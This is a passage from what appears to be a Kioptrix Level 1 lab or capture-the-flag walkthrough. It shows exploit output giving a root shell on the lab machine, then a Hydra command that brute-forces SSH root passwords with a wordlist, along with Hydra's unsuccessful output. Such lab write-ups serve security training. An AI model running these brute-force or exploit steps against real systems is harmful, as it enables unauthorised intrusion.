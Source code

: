 ```bash
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)

```

### Bruteforce SSH

#### Hydra

```bash
hydra -v -V -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8
```

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-01-02 19:23:53
[DATA] max 8 tasks per 1 server, overall 8 tasks, 1009 login tries (l:1/p:1009), ~127 tries per task
[DATA] attacking ssh://192.168.88.129:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://root@192.168.88.129:22
[INFO] Successful, password authentication is supported by ssh://192.168.88.129:22
[STATUS] attack finished for 192.168.88.129 (waiting for children to complete tests)
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-01-02 19:40:28
```
